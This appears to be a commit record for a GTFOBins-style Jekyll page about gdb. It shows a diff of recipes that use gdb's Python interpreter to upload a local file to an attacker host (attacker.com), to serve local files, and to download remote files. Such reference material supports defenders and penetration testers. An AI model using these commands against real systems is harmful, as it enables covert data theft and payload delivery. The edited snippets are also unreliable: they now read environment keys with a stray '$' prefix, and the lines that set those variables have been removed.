

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/gdb.md, in a window 1280 px wide. Shown: the part 335-1186 px from the top of the page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1164 px from its top, so only the background shows below that.

Commit message:
Update gdb.md

```diff
--- a/_gtfoud/gdb.md
+++ b/_gtfoud/gdb.md
@@ -3,26 +3,22 @@
   file-upload:
     - description: This requires that GDB is compiled with Python support. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
       code: |
-        export URL=http://attacker.com/
-        export LFILE=file_to_send
         gdb -nx -ex 'python import sys; from os import environ as e
         if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
         else: import urllib as u, urllib2 as r
-        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))' -ex quit
+        r.urlopen(e["$URL"], bytes(u.urlencode({"d":open(e["$LFILE"]).read()}).encode()))' -ex quit
+  server:
     - description: This requires that GDB is compiled with Python support. Serve files in the local folder running an HTTP server.
       code: |
-        export LPORT=8888
         gdb -nx -ex 'python import sys; from os import environ as e
         if sys.version_info.major == 3: import http.server as s, socketserver as ss
         else: import SimpleHTTPServer as s, SocketServer as ss
-        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()' -ex quit
+        ss.TCPServer(("", int(e["$LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()' -ex quit
   file-download:
     - description: This requires that GDB is compiled with Python support. Fetch a remote file via HTTP GET request.
       code: |
-        export URL=http://attacker.com/file_to_get
-        export LFILE=file_to_save
         gdb -nx -ex 'python import sys; from os import environ as e
         if sys.version_info.major == 3: import urllib.request as r
         else: import urllib as r
-        r.urlretrieve(e["URL"], e["LFILE"])' -ex quit
+        r.urlretrieve(e["$URL"], e["$LFILE"])' -ex quit
 ---
```
